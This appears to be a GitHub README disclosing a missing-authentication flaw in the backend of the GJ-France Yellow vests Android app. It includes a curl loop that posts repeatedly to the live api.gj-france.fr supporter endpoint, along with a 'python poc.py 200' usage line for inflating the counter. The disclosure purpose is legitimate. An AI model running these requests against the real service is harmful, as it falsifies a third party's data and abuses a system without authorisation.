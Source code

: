 # GJ-FRANCE API vulnerability
The [GJ-France](https://play.google.com/store/apps/details?id=fr.devappfrance.gj_france) app is the "official" Android app of the Yellow vests movement in France.

As per their Google Play description, this app is presenting "the figures"
> Présentation des chiffres 
> A partir du menu "Les Chiffres", l'App présente deux types de chiffres :
> Le nombre de SOUTIENS du mouvement (actualisé en temps réél)
> Le nombre de GJ actifs terrain pour chaque jour

In the app, they called this section "The TRUE figures" aka media are lying we are more than that.

This Cordova app made by an "agency" called [Whelp](whelp.fr) has many issues. Their backend is probably one of the worst backend I saw in my life. There is no authentication mechanism, they used POST requests for everything,...

Thanks to this lack of authentication mechanism, you can increment indefinitively the live support counter with the following command:
```console
for i in {1..10}; do curl -X POST https://api.gj-france.fr/soutien; done
```
Oops, the TRUE figures are not really true anymore...

## Demo
[![Demo](http://img.youtube.com/vi/9DlDl7Epmdc/0.jpg)](http://www.youtube.com/watch?v=9DlDl7Epmdc)

## Affected Versions
1.0.8 and below

## How To
```console
# Add 200 new supporter
python poc.py 200
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip from [@thibeault_chenu](https://twitter.com/thibeault_chenu), the investigation and the POC has been made with ❤️ by @fs0c131y